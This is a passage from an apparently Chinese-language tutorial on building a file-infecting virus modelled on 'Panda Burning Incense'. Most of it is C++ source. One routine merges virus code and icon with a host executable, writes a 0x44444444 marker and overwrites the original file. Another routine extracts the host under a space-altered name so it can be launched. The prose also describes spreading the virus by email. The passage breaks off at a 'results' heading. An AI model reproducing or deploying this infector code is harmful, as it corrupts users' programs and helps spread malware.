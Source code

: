 ```c++ 
            filebuff.push_back(c[0]);
        }
        //写入病毒文件图标
        SrcStream.seekg(0, SrcStream.beg);
        while (SrcStream.read(c, 1)) { //原文件内容
            filebuff.push_back(c[0]);
        }
 
        c[0] = 0x44;
        for (int i = 0; i < 4; i++)
            filebuff.push_back(c[0]);  //文件最后写入标志 0x44444444
 
        std::ofstream DstStream(pathFileName, ios::out | ios::binary); //覆盖写入原文件
        DstStream.write(filebuff.c_str(), filebuff.length());
        SrcStream.close();
        HdrStream.close();
        DstStream.close();
 
    }
    catch (...) {
        //
    }
}
```

## 病毒传播

病毒的传播有多种途径，比如邮件发送给其他用户，诱导其下载运行病毒进行扩散传播；本地的文件感染之后，直观上的主要症状是图标变成熊猫的图标；当用户想新启动运行一个程序，比如`MFCApplication1.exe`，由于该执行文件已经被感染了，启动的时候就是一个病毒程序，将分离出原始的程序（文件名多一个空格 `MFCApplication1 .exe`），和原宿主文件基本保持一致（最后面4个标志字节并未去掉），并启动`MFCApplication1 .exe`宿主程序，如果宿主程序本身有校验的话将无法启动（比如校验文件大小，因为多了4个字节），但大部分程序应该都可以正常启动。

```c++
void ExtractFile(const string& FileName) {
 
    std::ifstream sStream(pathProgramName, ios::in | ios::binary); //病毒文件和宿主文件合并后的文件
    std::ofstream dStream(FileName, ios::out | ios::binary); //宿主文件，文件名包含空格
 
    char c[1] = { 0 };
    std::string fileBuff;
    sStream.seekg(HeaderSize); //跳过头部的病毒部分
    while (sStream.read(c, 1)) {
        fileBuff.push_back(c[0]);
    }
 
    dStream.write(fileBuff.c_str(), fileBuff.length()); //最后4字节标志位也打包进去，避免重复处理
    sStream.close();
    dStream.close();
}
```

## 运行效果
